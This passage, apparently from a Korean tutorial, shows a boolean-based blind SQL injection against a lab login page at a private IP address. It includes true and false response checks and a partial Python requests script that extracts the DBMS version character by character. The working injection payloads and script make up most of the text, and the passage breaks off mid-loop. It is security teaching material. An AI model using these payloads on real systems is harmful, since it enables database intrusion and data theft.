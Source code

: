 결과는 다음과 같다.

	Welcome test

거짓의 결과를 획득해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| a |
| PW	| a |
| URL	| http://192.168.0.58/index.php?userid=a&password=a |

결과는 다음과 같다.

	Login Failed

수기입력으로 Blind SQL Injection을 수행하기에는 어려움이 있다.

따라서 python을 이용하여 스크립트로 수행하고 웹 통신을 위해여 requests패키지를 사용해보자.

## **DBMS 버전 확인**

참과 거짓의 결과 정보를 이용하여 DBMS의 버전을 획득해보자.

다음과 같이 DBMS 버전의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH(VERSION())={i}#')
```

쿼리의 결과가 참일 경우 DBMS 버전의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if REQUEST.text == 'Welcome test':
	RESULT_LENGTH = i
	break
```

DBMS의 버전을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(VERSION(),{i+1},1))={ord(s)}#')
```

마찬가지로 쿼리의 결과가 참일 경우 DBMS 버전의 문자열 일부를 알 수 있다.

다음의 Full Code로 DBMS의 버전을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND LENGTH(VERSION())={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'VERSION LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(VERSION(),{i+1},1))={ord(s)}#')
```